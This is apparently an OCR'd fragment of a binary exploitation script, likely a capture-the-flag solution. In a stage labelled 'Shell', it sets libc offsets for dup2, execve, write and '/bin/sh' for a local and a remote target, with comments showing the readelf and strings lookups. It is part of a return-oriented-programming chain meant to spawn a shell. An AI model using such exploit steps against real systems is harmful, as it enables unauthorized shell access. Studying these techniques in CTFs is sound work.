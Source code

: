     ### Stage 2: Shell
    # build rop

    if target == 'local':
    # readelf -s /lib/x86_64-linux-gnu/libc-2.29.so | grep -e " dup2@@GLIBC" -e " execve@@GLIBC" -e " write@@GLIBC"
    #  1011: 00000000000ebf00    33 FUNC    WEAK   DEFAULT   14 dup2@@GLIBC_2.2.5
    #  1509: 00000000000c7d60    33 FUNC    WEAK   DEFAULT   14 execve@@GLIBC_2.2.5
    #  2271: 00000000000eb7d0   153 FUNC    WEAK   DEFAULT   14 write@@GLIBC_2.2.5
    # strings -a -t x /lib/x86_64-linux-gnu/libc-2.29.so | grep /bin/sh
    # 183cee /bin/sh
        dup2_offset   = 0xebf00
        execve_offset = 0xc7d60
        write_offset  = 0xeb7d0
        binsh_offset  = 0x183cee

    else:
    # readelf -s libc.so.6_ | grep -e " dup2@@GLIBC" -e " execve@@GLIBC" -e " write@@GLIBC"
    #   999: 00000000001109a0    33 FUNC    WEAK   DEFAULT   13 dup2@@GLIBC_2.2.5
    #  1491: 00000000000e4e30    33 FUNC    WEAK   DEFAULT   13 execve@@GLIBC_2.2.5
    #  2246: 0000000000110140   153 FUNC    WEAK   DEFAULT   13 write@@GLIBC_2.2.5
    # strings -a -t x libc.so.6_  | grep /bin/sh
    # 1b3e9a /bin/sh
        dup2_offset   = 0x1109a0
        execve_offset = 0xe4e30
        write_offset  = 0x110140
        binsh_offset  = 0x1b3e9a
